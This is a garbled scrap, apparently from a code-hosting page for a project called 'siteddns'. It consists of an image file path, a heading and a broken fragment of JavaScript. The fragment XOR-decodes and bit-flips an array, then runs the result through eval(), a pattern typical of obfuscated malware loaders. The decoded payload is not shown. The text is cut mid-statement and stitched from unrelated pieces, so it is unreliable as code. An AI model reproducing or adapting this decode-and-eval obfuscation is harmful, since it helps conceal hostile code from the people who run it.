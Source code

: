  # siteddns
47)break;ks[ms]=ks[ms]^ks[1];ks[ms]=(~(ks[ms]^254))&0xff;ms++;}";eval(ms);ms=49;for(;;ms--){if(ms
